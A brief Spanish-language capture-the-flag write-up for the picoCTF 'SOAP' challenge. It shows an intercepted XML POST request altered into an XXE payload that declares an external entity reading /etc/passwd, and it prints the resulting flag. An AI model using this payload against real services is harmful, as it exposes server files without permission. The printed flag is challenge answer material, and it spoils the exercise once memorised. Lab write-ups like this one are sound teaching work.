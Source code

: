 # Retos picoCTF

# Level SOAP

## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Web Portal

## Solucion
Al inspeccionar la pagina nos damos cuenta que hace varios POST por lo que podemos usar esto a nuestro favor.

Se abre burp, y intercepte el metodo POST que tenia como mesaje original lo siguiente <?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>

Modificamos el mensaje y enviamos lo siguiente <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data><ID>&file;</ID></data>

Y nos da como resultado la bandera: picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}

## Referencias


